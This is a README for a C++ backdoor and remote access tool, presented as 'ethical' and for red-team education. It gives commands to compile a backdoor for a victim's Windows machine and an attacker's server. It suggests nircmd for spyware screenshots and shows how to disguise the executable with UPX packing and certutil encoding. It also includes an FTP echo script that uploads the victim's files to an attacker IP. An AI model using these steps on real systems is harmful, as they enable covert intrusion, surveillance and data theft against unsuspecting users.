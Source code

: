 # C++ Backdoor/RAT </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes
**by Pol Galvez**

## How to Use</br>
1) **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/bin/client/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```

2)** Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/bin/server/server.exe
```
3) **Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Screenshot:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Playlist Creating similar RAT<br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs
https://youtu.be/6Dc8i1NQhCM<br>
Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
